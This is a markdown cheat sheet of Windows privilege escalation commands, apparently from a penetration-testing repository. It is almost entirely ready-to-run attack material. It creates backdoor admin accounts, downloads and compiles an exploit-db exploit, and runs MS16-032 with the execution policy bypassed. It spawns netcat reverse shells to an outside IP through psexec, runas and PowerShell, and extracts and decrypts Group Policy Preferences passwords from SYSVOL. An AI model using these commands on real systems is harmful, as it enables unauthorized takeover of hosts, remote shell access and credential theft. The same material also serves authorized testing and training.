 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

* Python Complier exe

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* Powershell exploit run in cmd

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* Windows Run As

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

* Windows Service Configuration Viewver:

```
 scsiaccess.exe  
 NT AUTHORITY\SYSTEM:(I)(F)  
 BUILTIN\Administrators:(I)(F)  
 BUILTIN\Users:(I)(RX)  
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
 Everyone:(I)(F)
```

* Group Policy Preferences

```
#map the Domain controller SYSVOL share

net use z:\\dc01\SYSVOL

#Find the GPP file: Groups.xml

dir /s Groups.xml

#Review the contents for passwords

type Groups.xml

#Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
```

